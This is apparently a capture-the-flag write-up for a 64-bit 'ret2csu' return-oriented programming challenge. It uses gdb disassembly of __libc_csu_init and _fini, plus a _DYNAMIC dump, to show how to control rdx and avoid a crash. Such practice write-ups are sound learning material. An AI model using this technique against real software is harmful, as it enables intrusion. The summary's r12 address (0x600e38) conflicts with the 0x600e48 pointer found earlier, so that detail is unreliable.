 # ret2csu - 64bit

The challenge is testing our ability to load a value into a register of a tiny binary. Spoilers, we do not have the correct gadgets to load the parameter into the 3rd register `rdx`.

We need to implement an attack known as `ret2csu`. This is effectively using gadgets present in what is known as "attached code".

We need to look at the `__libc_csu_init` decompilation.

```
gdb-peda$ disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:	push   r15
   0x0000000000400842 <+2>:	push   r14
   0x0000000000400844 <+4>:	mov    r15,rdx
   0x0000000000400847 <+7>:	push   r13
   0x0000000000400849 <+9>:	push   r12
   0x000000000040084b <+11>:	lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:	push   rbp
   0x0000000000400853 <+19>:	lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:	push   rbx
   0x000000000040085b <+27>:	mov    r13d,edi
   0x000000000040085e <+30>:	mov    r14,rsi
   0x0000000000400861 <+33>:	sub    rbp,r12
   0x0000000000400864 <+36>:	sub    rsp,0x8
   0x0000000000400868 <+40>:	sar    rbp,0x3
   0x000000000040086c <+44>:	call   0x400560 <_init>
   0x0000000000400871 <+49>:	test   rbp,rbp
   0x0000000000400874 <+52>:	je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:	xor    ebx,ebx
   0x0000000000400878 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:	mov    rdx,r15
   0x0000000000400883 <+67>:	mov    rsi,r14
   0x0000000000400886 <+70>:	mov    edi,r13d
   0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:	add    rbx,0x1
   0x0000000000400891 <+81>:	cmp    rbp,rbx
   0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:	add    rsp,0x8
   0x000000000040089a <+90>:	pop    rbx
   0x000000000040089b <+91>:	pop    rbp
   0x000000000040089c <+92>:	pop    r12
   0x000000000040089e <+94>:	pop    r13
   0x00000000004008a0 <+96>:	pop    r14
   0x00000000004008a2 <+98>:	pop    r15
   0x00000000004008a4 <+100>:	ret    
End of assembler dump.
```

We have two sets of gadgets we can use:


```
0x0000000000400880 <+64>:	mov    rdx,r15
0x0000000000400883 <+67>:	mov    rsi,r14
0x0000000000400886 <+70>:	mov    edi,r13d
0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040088d <+77>:	add    rbx,0x1
0x0000000000400891 <+81>:	cmp    rbp,rbx
0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
0x0000000000400896 <+86>:	add    rsp,0x8
[...]
```

And

```
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret    
```

Therefore, if we can `pop` our value into `r15` we can `mov` it into `rdx` with the first chain.

However, we have a few issues, the first chain does not end with a `ret` and flows into the second, therefore it looks a little more like this:

Chain #1
```
0x0400880 <+64>:	mov    rdx,r15
0x0400883 <+67>:	mov    rsi,r14
0x0400886 <+70>:	mov    edi,r13d
0x0400889 <+73>:	call   QWORD PTR [r12+rbx*8]
0x040088d <+77>:	add    rbx,0x1
0x0400891 <+81>:	cmp    rbp,rbx
0x0400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
0x0400896 <+86>:	add    rsp,0x8
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret  
```

Chain #2
```
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret    
```

We have a couple of hoops to jump through if we want to deal with Chain #1 correctly.

The first is the `call` command:

```
0x0400889 <+73>:	call   QWORD PTR [r12+rbx*8]
```

This caused some issues, but after reading through a post by [w3ndige](https://www.rootnetsec.com/ropemporium-ret2csu/) that talked about another [post](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html). This can be solved by redirecting the flow to the `_fini` section of the binary.

If we decompile the function we see it does literally nothing:

```
gdb-peda$ disas _fini
Dump of assembler code for function _fini:
   0x04008b4 <+0>:	sub    rsp,0x8
   0x04008b8 <+4>:	add    rsp,0x8
   0x04008bc <+8>:	ret    
End of assembler dump.
```

This is a great place to redirect the flow to prevent a `SIGSEGV`.

The next hoop is a set of comparison instructions:

```
0x040088d <+77>:	add    rbx,0x1
0x0400891 <+81>:	cmp    rbp,rbx
0x0400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
```
We can find a pointer to this address in the `.dynamic` section of the executable

This can be seen using `gdb` at a breakpoint:

```
gdb-peda$ x/10g &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4
0x600e50:       0x0000000000000019      0x0000000000600e10
0x600e60:       0x000000000000001b      0x0000000000000008
```

Position `0x600e48` has a pointer (`0x00000000004008b4`) to the method `_fini`. This will prevent the program from segfaulting.

We need to, therefore, make sure that `rbx` and `rbp` are equal. Means starting `rbp` as `0x1` and `rbx` as `0x0`.

The final issue is a `add rsp, 0x8` command. This will move the stack down eight values and, thus, padding will be required to keep the exploit on track.

In summary:

`r15` - 0xdeadcafebabebeef
`rbp` - 0x1
`rbx` - 0x0
`r12` - Address of `_fini` (0x0600e38)

Plus padding is correct places. This will be needed for redundant `pop` and `add rsp, 0x8` commands.

Adding these all together in the `exploit.py` gives a working exploit!